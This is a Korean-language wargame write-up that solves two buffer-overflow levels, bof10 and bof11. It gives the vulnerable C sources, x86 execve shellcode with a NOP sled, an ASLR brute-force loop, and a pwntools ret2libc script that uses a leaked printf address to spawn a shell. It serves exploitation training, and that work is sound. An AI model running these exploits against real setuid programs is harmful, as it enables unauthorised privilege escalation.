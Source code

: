 # bof10

<details>
<summary>bof10.c</summary>

```c
// AFTER => bof9.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR ON
// STACK-PROTECTOR OFF
// STACK-EXECUTION ON

void vuln(char * arg) {
    char buf[BUF_SIZE];

    if (setreuid(1011, 1011)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1011, 1011)) {
        perror("setgid");
        exit(1);
    }
    strcpy(buf, arg);
    printf("Hello %s[%p]!\n", buf, buf);
    printf("(env:SHELLCODE -> %p)\n", getenv("SHELLCODE"));
}

int main(int argc, char *argv[]) {
    vuln(argv[1]);
    return 0;
}
```
</details>

다음 코드를 보면 함수 인자를 받아서 vuln함수에 넘기는 것을 볼 수 있다. 그리고 나머지는 bof8과 같다. 그럼 bof8처럼 환경변수를 설정하고 환경변수 주소를 ret에 덮어씌우면 되는지 확인을 해봤다.

![](./image/1.png)

실행시킬 때마다 주소값이 바뀌는 것을 확인할 수 있다. 따라서 다른 방법을 생각해보아야 한다.

주소값이 계속 바뀐다면 특정을 할 수 없기 때문에 nop을 이용해보자. ret에 nop이 존재하는 주소를 보낸다면 결국 nop을 타고 환경변수의 주소에 도달하게 되어 환경변수를 실행시킬 수 있을 것 같다.


다음과 같이 환경변수를 설정할 때 nop을 무진장 많이 넣어주자. 그러면 스택 구조상 환경변수가 저장되는 부분에는 수많은 nop이 존재한다. 그렇기 때문에 ret이 그 사이를 가리키게 된다면 SHELLCODE가 실행될 수 있다.

```
export SHELLCODE=`python -c "print '0x90' * 130000 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x
50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

```

vuln을 실행 했을 때 esp(ret의 주소)

![](./image/4.png)

버퍼오버플로우에 취약한 strcpy를 실행할 때 disassemble. 32비트는 인자를 스택에다가 push하여 전달하고 call할때 pop을 하기때문에 첫번째 인자인 buf의 주소는 마지막에 push된 ebp - 0x10에 저장되어 있다.

![](./image/2.png)

ebp - 0x10 값과 두 ret과 buf 주소값의 차이

![](./image/3.png)


이를 통해서 다음과 같은 페이로드를 작성해보자. 마지막의 주소값은 처음 실행시켜보았을 때 나온 환경변수 SHELLCODE의 주소값이다.
```
./bof10 `python -c "print 'x' * 20 + '\x51\x88\xa9\xff'"`
```
당연히 안될 것이다. ~~만약 운이 엄청나게 좋았더라면 됬을것이다.~~

대충 메모리의 구조이다.(너무 못그려서 그냥 보고만 지나가자) 

[여기(day9)](https://github.com/ccss17/security-tutorial/tree/master/09-Exploit4)에 환경변수에 nop을 많이 넣어 임의의 주소값을 ret에 주게 될때 ret이 nop이 있는 곳을 가르킬 확률이 너무 잘 나와있다.

![](./image/5.png)

여튼 너무 낮은 확률이지만 어느정도 가능성이 있기때문에 무한 반복을 하다보면 언젠가는 얻어 걸릴 것이다.

```
while true; do ./bof10 `python -c "print 'x' * 20 + '\x51\x88\xa9\xff'"`; done
```

![](./image/nop.gif)


# bof11

<details>
<summary>bof11</summary>

```c
// AFTER => bof10.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 8

// ASLR ON
// STACK-PROTECTOR OFF
// STACK-EXECUTION OFF

void vuln(void) {
    char buf[BUF_SIZE] = {'\0'};
    memset(buf, 0, sizeof(buf));
    printf("printf() address : %p\n", printf);

    if (setreuid(1012, 1012)) {
        perror("setuid");
        exit(1);
    }
    if (setregid(1012, 1012)) {
        perror("setgid");
        exit(1);
    }
    unsigned short mistake = -128;
    fgets(buf, mistake, stdin);
    printf("Hello %s\n", buf);
}

int main(void) {
    vuln();
    return 0;
}
```
</details>

이 코드는 형식은 bof9와 유사하다. 하지만 다른점은 rslr이 걸려있다는 것이다. 다음코드를 통해서 확인할 수 있다.(그냥 bof11을 계속 실행 하면 주소값이 바뀌는 것을 확인할 수 있다.)

```
cat /proc/sys/kernel/randomize_va_space
```

bof9와 같이 스택에 쉘 실행권한이 없기 때문에 rtl을 사용하고 싶지만
주소값이 바뀌는 상황에서 그 방법을 그대로 사용하기에는 어려움이 있다. 하지만 vuln 함수에서 보면 printf함수의 주소값이 유출되는 것을 확인 할 수있다. 이것을 통해서 rtl을 적용해 보자.

우선 핵심은 bof10을 풀어보았을 때 buf부터 ret까지의 거리는 고정적으로 20이라는 것을 알 수 있었다. 이 말은 즉 스택에서 상대적인 거리는 변하지 않는 다는 것이다.

그러므로 우리는 printf의 주소를 vuln함수 내에서 알아낼 수 있기때문에 printf함수의 주소값에 두 주소값의 상대적인 차이를 알아내어 더해준다면 실질적으로 우리가 원하는 주소값을 찾을 수 있을 것이다. 

따라서 bo9에서 했던 방식으로 하기 위해서 우리가 필요한 함수들의 주소값을 찾아보자

system와 printf의 상대 거리

![](./image_bof11/sys-print.png)

pop rdi ; ret과 printf의 상대 거리

![](./image_bof11/1.png)
![](./image_bof11/vmmap.png)
![](./image_bof11/pop-print.png)

/bin/sh과 printf의 상대거리

![](./image_bof11/bin-print.png)

buf부터 ret까지 거리

![](./image_bof11/2.png)
![](./image_bof11/3.png)
![](./image_bof11/4.png)

상대거리를 알아냈다하더라도 실행할때마다 printf의 주소값이 바뀌니 이 주소값이 바뀌지 않도록 붙들고 있어야지만 원하는 값을 buf에 입력할 수 있다.

따라서 다음과 같은 poc코드를 작성할 수 있다.

```py
from pwn import *

p = process('./bof11')

#printf함수의 주소값을 printf에 저장한다.
p.recvuntil('printf() address : ')
printf = int(p.recvuntil('\n'), 16) #16 진수를 숫자로 바꿔준다.

#알아낸 상대주소를 통해 실질적인 주소값을 알아낸다.
sys = printf + (-66672)
binsh = printf + (1275223)
poprdi = printf + (-214782)
bufToRet = 18

#이를 통해 순서대로 페이로드를 만든다.
payload = b"x" * bufToRet
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(sys)
p.send(payload)

p.interactive()
```